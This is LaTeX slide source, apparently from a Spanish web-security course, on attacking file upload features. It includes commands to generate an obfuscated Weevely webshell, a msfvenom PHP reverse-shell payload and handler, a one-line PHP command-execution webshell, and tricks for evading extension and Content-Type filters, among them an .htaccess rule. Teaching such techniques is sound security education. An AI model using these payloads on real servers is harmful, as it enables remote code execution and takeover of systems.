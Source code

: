 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{File Upload --- herramientas (Weevely $\cdot$ Metasploit)}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Weevely --- webshell ofuscada + cliente
  \item weevely generate \textless{}pass\textgreater{} hack.php (genera el payload)
  \item Subir hack.php al servidor y luego conectar:
  \item weevely http://victima/uploads/hack.php \textless{}pass\textgreater{}
  \item Shell cifrada/ofuscada $\rightarrow$ evade muchos AV/WAF.
  \item Metasploit (msfvenom + handler)
  \item msfvenom -p php/meterpreter/reverse\_tcp lhost=IP lport=4444 -f raw
  \item msf\textgreater{} use exploit/multi/handler
  \item msf\textgreater{} set payload php/meterpreter/reverse\_tcp; set lhost IP; run
  \item También payloads en ASP, Perl, JSP\dots{} según el servidor.
  \item github.com/epinna/weevely3 $\cdot$ docs.metasploit.com
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{File Upload --- bypass de tipo y extensión}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Bypass de Content-Type
  \item Content-Type: image/png (cuerpo = \textless{}?php system(\$\_GET[c]);?\textgreater{})
  \item Si solo valida el header Content-Type, se falsifica manteniendo el payload PHP.
  \item Bypass de blacklist de extensiones
  \item .phtml .php3 .php4 .php5 .php7 .pht .phar .inc
  \item El servidor bloquea .php pero ejecuta otras extensiones PHP menos conocidas.
  \item Extensión ofuscada
  \item shell.php.jpg $\cdot$ shell.php\%00.jpg $\cdot$ shell.pHp $\cdot$ shell.php. $\cdot$ shell.php;.jpg
  \item Doble extensión, null byte, mayúsculas, punto/espacio final o ; engañan al filtro.
  \item Bypass de whitelist con .htaccess
  \item .htaccess: AddType application/x-httpd-php .jpg
  \item Subir un .htaccess que fuerce a ejecutar .jpg como PHP (Apache).
  \end{itemize}
\end{frame}
\end{document}
